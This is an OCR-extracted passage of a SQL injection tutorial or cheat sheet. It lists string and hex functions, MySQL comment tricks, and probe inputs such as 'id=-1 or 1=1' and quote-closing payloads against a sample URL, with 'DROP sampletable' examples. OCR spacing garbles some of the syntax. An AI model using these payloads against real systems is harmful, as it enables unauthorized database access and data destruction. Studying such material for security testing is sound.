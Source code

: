 UPPER (): converted to capital letters

HEX (): hexadecimal encoding

UNHEX (): hexadecimal decoding

String interception

MID ()

LEFT ()

SUBSTR ()

SUBSTRING ()

Comments

Interline comments

- - (- there is a space behind)
- 
DROP sampletable; -

#
DROP sampletable; #

`(Backtick)

Inline comments
/ * * / + DROP / * content * / sampletable;
/ *! Statement * /
/ *! select * from test * /

Statement will be executed

0x02 injection technology

Determine whether there is injection

Assumptions are: www.test.com/chybeta.php?id=1

Numeric injection

chybeta.php?id=1+1

chybeta.php?id=-1 or 1=1

chybeta.php?id=-1 or 10-2=8

chybeta.php?id=1 and 1=2

chybeta.php?id=1 and 1=1

Character injection

The parameters are surrounded by quotes, we need to close the quotes.

chybeta.php?id=1'

chybeta.php?id=1"

chybeta.php?id=1' and '1'='1
